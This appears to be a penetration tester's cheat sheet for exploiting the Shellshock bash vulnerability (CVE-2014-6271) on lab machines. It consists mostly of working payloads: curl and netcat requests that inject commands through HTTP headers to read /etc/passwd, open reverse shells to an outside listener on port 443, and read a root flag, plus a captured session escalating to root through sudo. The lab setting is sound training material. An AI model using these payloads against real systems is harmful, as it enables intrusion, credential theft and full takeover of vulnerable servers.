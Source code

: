 https://www.exploit-db.com/exploits/34766

https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/


https://pentesterlab.com/exercises/cve-2014-6271/course


Machines : shellshock, symfonos 3, sleepy

$ curl -s -H "x: () { :; }; /bin/bash -c 'cat /etc/passwd'" http://192.168.110.45/cgi-bin/status
$ curl -s -H "x: () { :; }; /bin/bash -c '; echo vulnerable'" http://192.168.110.45/cgi-bin/status

$ curl -s -H "x: () { :; }; /bin/bash -c 'ping -c 1 192.168.110.1 ; id'" http://192.168.110.45/cgi-bin/status
tcpdump -i eth0 -n icmp        


$ curl -s -H "x: () { :; }; /bin/bash -c 'ping -c 1 /dev/tcp/192.168.110.1/443 ; id'" http://192.168.110.45/cgi-bin/status
$ curl -s -H "x: () { :; }; /bin/bash -c '0<&21-;exec 21<>/dev/tcp/192.168.110.1/443;sh <&21 >&21 2>&21'" http://192.168.110.45/cgi-bin/status

```bash

echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.110.45 80
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.110.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.110.45 80

```

```bash
$ nc -lvp 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
sudo -l
User pentesterlab may run the following commands on this host:
    (root) NOPASSWD: ALL
sudo -s
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

env x='() { :;}; echo vulnerable' bash -c "echo test"
env x='() { :;}; cat /root/flag.txt' bash -c "echo test"
```

```bash

cat status
#!/bin/bash

echo "Content-Type: application/json";
echo ""
echo '{ "uptime": "'`uptime`'", "kernel": "'`uname -a`'"} '


```

This security vulnerability affects versions 1.14 (released in 1994) to the most recent version 4.3 according to NVD.

/bin/bash --version
GNU bash, version 4.2.45(1)-release (i686-pc-linux-gnu)